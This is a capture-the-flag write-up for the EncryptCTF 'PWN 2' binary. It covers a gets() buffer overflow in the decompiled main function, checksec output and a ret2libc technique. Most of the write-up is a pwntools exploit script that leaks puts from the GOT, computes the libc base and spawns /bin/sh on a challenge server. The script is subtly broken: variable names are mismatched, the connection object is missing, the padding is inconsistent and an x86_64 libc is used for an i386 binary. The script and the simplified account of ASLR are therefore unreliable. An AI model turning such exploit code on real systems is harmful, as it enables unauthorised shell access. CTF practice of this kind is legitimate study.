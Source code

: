## PWN 2
### Category : Pwning/Binary Exploitaition

Not sure what the intended solution was, but I could solve the solution using a standard ret2libc exploit.

So as per usual, we are given a binary. After decompiling it in ghidra, we get the main function

```

undefined4 main(void)

{
  int iVar1;
  char local_30 [44];
  
  setvbuf(stdout,(char *)0x0,2,0);
  printf("$ ");
  gets(local_30);
  iVar1 = strcmp(local_30,"ls");
  if (iVar1 == 0) {
    run_command_ls();
  }
  else {
    printf("bash: command not found: %s\n",local_30);
  }
  puts("Bye!");
  return 0;
}
```

Since, gets is being used without any limit on the number of input char, this is a standard buffer overflow vuln

To successfully exploit a buffer overflow, we need a shell access, and unlike the previous challenge, we don't have a shell function to access.

Checksec output of the binary :
```
checksec pwn2
[*] '/home/vipul/Desktop/EncryptCTF/pwn2_SOLVED/pwn2'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x8048000)
    RWX:      Has RWX segments
```
No Safety features!

To exploit the buffer overflow, we need the offset, using GDB and Pwntools, we get the offset at `44`

Now, since ASLR could be present, we need to first calculate the libc base address.

The theory of ASLR goes as in, since true randomization of complete memory space is in computaionally exhaustive, only randomization of the libc base is done, and hence, the difference in memory of locations of any two functions in libc remains constant


So, for the first part of the exploit, we need to calculate libc base. So we call the puts function (whose address is already present due to the main function calling it before) and pass the offset of puts as a argument to puts, and we parse the offset.

Let's say puts is at offset `0x400`, the libc base will be `<addr of function>-0x400`.

We parse the output of puts, and subtract it from address of puts to get the libc base.

Code for the above explanation

```
from pwn import *
context.binary = "./pwn2"
binary = ELF("./pwn2")
source = ("104.154.106.182", 3456)
ibc = ELF("/lib/x86_64-linux-gnu/libc.so.6", checksec = False)
offset = 44
puts_plt = binary.symbols["plt.puts"]
log.info("puts@plt : {}".format(hex(puts_plt)))
put_got = binary.symbols["got.puts"]
log.info("puts@got : {}".format(hex(puts_got)))
main = binary.symbols["main"]
log.info("main : {}".format(hex(main)))

payload = ""
payload += 'A'*offset
payload += p32(puts_plt)
payload += p32(main)
payload += p32(puts_got)

source.sendline(payload)

source.recvuntil("Bye!\n")
leaked = u32(source.recv(4)) #the leaked address from GOT is printed here
libc_base = leaked - libc.symbols['puts']
```

Now after we know the offset of puts, we can calculate the location of `system`, by adding the offset to libc_base and we can also get the location of `/bin/sh`, which will be passed as a parameter to system, to get access to the shell

```
system = libc_base + libc.symbols['system']
binsh = libc_base + libc.symbols["/bin/sh"]

payload = ""
payload += "A"*(offset-8)
payload += p32(system)
payload += p32(0)
payload += p32(binsh)

source.sendline(payload)
p.interactive()
```

```
FLAG : encryptCTF{N!c3_j0b_jump3R}
```
